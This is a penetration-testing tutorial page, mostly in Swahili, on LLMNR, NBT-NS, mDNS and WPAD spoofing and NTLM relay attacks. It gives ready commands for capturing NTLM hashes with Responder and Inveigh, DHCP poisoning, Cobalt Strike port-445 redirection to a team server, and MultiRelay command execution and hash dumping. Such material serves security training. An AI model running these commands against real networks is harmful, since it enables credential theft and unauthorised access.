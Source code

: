 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Network Protocols

### Local Host Resolution Protocols
- **LLMNR, NBT-NS, and mDNS**:
- Microsoft na mifumo mingine ya uendeshaji hutumia LLMNR na NBT-NS kwa ajili ya kutatua majina ya ndani wakati DNS inashindwa. Vivyo hivyo, mifumo ya Apple na Linux hutumia mDNS.
- Protokali hizi zinaweza kukabiliwa na udukuzi na spoofing kutokana na asili yao isiyo na uthibitisho, ya matangazo kupitia UDP.
- [Responder](https://github.com/lgandx/Responder) inaweza kutumika kuiga huduma kwa kutuma majibu yaliyotengenezwa kwa mwenyeji wanaouliza protokali hizi.
- Taarifa zaidi juu ya kuiga huduma kwa kutumia Responder inaweza kupatikana [hapa](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Web Proxy Auto-Discovery Protocol (WPAD)
- WPAD inaruhusu vivinjari kugundua mipangilio ya proxy kiotomatiki.
- Ugunduzi unarahisishwa kupitia DHCP, DNS, au kurudi kwa LLMNR na NBT-NS ikiwa DNS inashindwa.
- Responder inaweza kuendesha mashambulizi ya WPAD, ikielekeza wateja kwa seva za WPAD zenye uharibifu.

### Responder for Protocol Poisoning
- **Responder** ni chombo kinachotumika kwa ajili ya kuharibu LLMNR, NBT-NS, na mDNS maswali, ikijibu kwa kuchagua kulingana na aina za maswali, hasa ikilenga huduma za SMB.
- Inakuja ikiwa imewekwa awali katika Kali Linux, inayoweza kubadilishwa katika `/etc/responder/Responder.conf`.
- Responder inaonyesha hash zilizokamatwa kwenye skrini na kuzihifadhi katika saraka ya `/usr/share/responder/logs`.
- Inasaidia IPv4 na IPv6.
- Toleo la Windows la Responder linapatikana [hapa](https://github.com/lgandx/Responder-Windows).

#### Running Responder
- Kuendesha Responder kwa mipangilio ya default: `responder -I <Interface>`
- Kwa uchunguzi mkali zaidi (ikiwa na athari zinazoweza kutokea): `responder -I <Interface> -P -r -v`
- Mbinu za kukamata changamoto/jibu za NTLMv1 kwa urahisi wa kuvunja: `responder -I <Interface> --lm --disable-ess`
- Kuiga WPAD kunaweza kuanzishwa kwa: `responder -I <Interface> --wpad`
- Maombi ya NetBIOS yanaweza kutatuliwa kwa IP ya mshambuliaji, na proxy ya uthibitishaji inaweza kuanzishwa: `responder.py -I <interface> -Pv`

### DHCP Poisoning with Responder
- Spoofing majibu ya DHCP yanaweza kuharibu kwa kudumu taarifa za routing za mwathirika, ikitoa njia ya siri zaidi kuliko ARP poisoning.
- Inahitaji maarifa sahihi ya usanidi wa mtandao wa lengo.
- Kuendesha shambulizi: `./Responder.py -I eth0 -Pdv`
- Njia hii inaweza kukamata hash za NTLMv1/2 kwa ufanisi, lakini inahitaji kushughulikia kwa makini ili kuepuka kuvuruga mtandao.

### Capturing Credentials with Responder
- Responder itaimarisha huduma kwa kutumia protokali zilizotajwa hapo juu, ikikamata akidi (kawaida NTLMv2 Changamoto/Jibu) wakati mtumiaji anajaribu kuthibitisha dhidi ya huduma zilizoghushiwa.
- Jaribio linaweza kufanywa kushuka hadi NetNTLMv1 au kuzima ESS kwa urahisi wa kuvunja akidi.

Ni muhimu kutambua kwamba kutumia mbinu hizi inapaswa kufanywa kisheria na kwa maadili, kuhakikisha idhini sahihi na kuepuka kuvuruga au ufikiaji usioidhinishwa.

## Inveigh

Inveigh ni chombo kwa ajili ya wapimaji wa penetral na timu nyekundu, kilichoundwa kwa mifumo ya Windows. Kinatoa kazi zinazofanana na Responder, kikifanya spoofing na mashambulizi ya mtu katikati. Chombo hiki kimebadilika kutoka kwa skripti ya PowerShell hadi binary ya C#, na [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) na [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) kama toleo kuu. Vigezo na maelekezo ya kina yanaweza kupatikana katika [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh inaweza kuendeshwa kupitia PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Au kutekelezwa kama binary ya C#:
```bash
Inveigh.exe
```
### NTLM Relay Attack

Shambulio hili linatumia vikao vya uthibitishaji vya SMB kupata mashine lengwa, likitoa shell ya mfumo ikiwa limefanikiwa. Masharti muhimu ni:
- Mtumiaji anayethibitisha lazima awe na ufikiaji wa Local Admin kwenye mwenyeji aliyehamasishwa.
- Uthibitishaji wa SMB unapaswa kuzuiliwa.

#### 445 Port Forwarding and Tunneling

Katika hali ambapo utangulizi wa moja kwa moja wa mtandao hauwezekani, trafiki kwenye bandari 445 inahitaji kuelekezwa na kupitishwa. Zana kama [**PortBender**](https://github.com/praetorian-inc/PortBender) husaidia katika kuelekeza trafiki ya bandari 445 kwenda kwenye bandari nyingine, ambayo ni muhimu wakati ufikiaji wa admin wa ndani unapatikana kwa ajili ya kupakia madereva.

PortBender setup and operation in Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Other Tools for NTLM Relay Attack

- **Metasploit**: Sanidiwa na proxies, maelezo ya mwenyeji wa ndani na wa mbali.
- **smbrelayx**: Skripti ya Python kwa ajili ya kuhamasisha vikao vya SMB na kutekeleza amri au kuweka backdoors.
- **MultiRelay**: Chombo kutoka kwenye suite ya Responder kuhamasisha watumiaji maalum au watumiaji wote, kutekeleza amri, au kutupa hashes.

Kila chombo kinaweza kuundwa kufanya kazi kupitia SOCKS proxy ikiwa ni lazima, ikiruhusu mashambulizi hata na ufikiaji wa mtandao wa moja kwa moja.

### MultiRelay Operation

MultiRelay inatekelezwa kutoka kwenye _**/usr/share/responder/tools**_ directory, ikilenga IP au watumiaji maalum.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
These tools and techniques form a comprehensive set for conducting NTLM Relay attacks in various network environments.

### Force NTLM Logins

Katika Windows unaweza **kushinikiza akaunti fulani zenye mamlaka kuthibitisha kwenye mashine zisizo za kawaida**. Soma ukurasa ufuatao kujifunza jinsi:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## References
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
